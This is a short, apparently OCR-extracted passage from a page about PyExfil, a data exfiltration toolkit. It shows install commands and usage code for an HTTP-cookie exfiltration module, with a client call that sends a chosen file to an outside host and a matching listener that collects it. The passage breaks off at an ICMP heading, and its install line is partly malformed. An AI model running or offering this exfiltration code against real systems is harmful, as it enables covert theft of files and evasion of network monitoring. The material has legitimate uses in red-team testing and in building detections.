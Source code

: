 git clone https://www.github.com/ytisf/PyExfil;cd PyExfil;pip install -r requirements.txt;pip install py2exe;pip setup.py install
Usage: (Full Usage here)

HTTP Cookies
from pyexfil.network.HTTP_Cookies.http_exfiltration import send_file, listen

# For Client (exfil)
send_file(addr='http://www.morirt.com', file_path=FILE_TO_EXFIL)

# For Server (collecting)
listen(local_addr='127.0.0.1', local_port=80)
ICMP Echo 8
